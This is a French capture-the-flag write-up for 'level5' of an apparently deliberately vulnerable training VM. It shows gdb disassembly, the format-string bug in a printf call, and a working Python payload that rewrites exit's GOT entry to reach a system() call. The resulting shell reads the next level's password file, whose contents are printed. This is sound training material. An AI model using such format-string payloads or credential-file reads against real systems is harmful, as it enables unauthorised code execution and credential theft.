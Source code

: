 # Level5

On observe un executable a la racine `level5`

```bash
$ ./level5
Hello World
Hello World
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level5 -q
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.

```

On va utiliser `Cutter` pour avoir un idee plus clair de `level5`

```bash
$ scp -P 4242 -r level5@192.168.56.102:/home/user/level5/level5 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level5
```

_resultat sauvegarde dans [source.md](source.md)_

Notre objectif ici est de modifier la valeur a l'adresse `0x08049838` d'exit sur `got` par l'adresse de la fonction `o`.
Actuellement `o` n'est pas appeler

On cherche donc a passer de `0x08049838 => 0x080484a4`. Il n'y a que les 2 derniers octects a modifier

A l'adresse `\x39\x98\x04\x08`, nous allons enregistrer <code>84<sub>16</sub>=132<sub>10</sub></code>
Et a l'adresse `\x38\x98\x04\x08`, nous allons enregistrer <code>a4<sub>16</sub>=164<sub>10</sub></code>

```bash
$ (python -c 'print "\x39\x98\x04\x08\x38\x98\x04\x08%124d%4$hhn%32d%5$hhn"'; cat) | ./level5
98
                                            512                     -1208149312
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
Ctrl+D

level5:$ su level6
Password:

level6:$
```
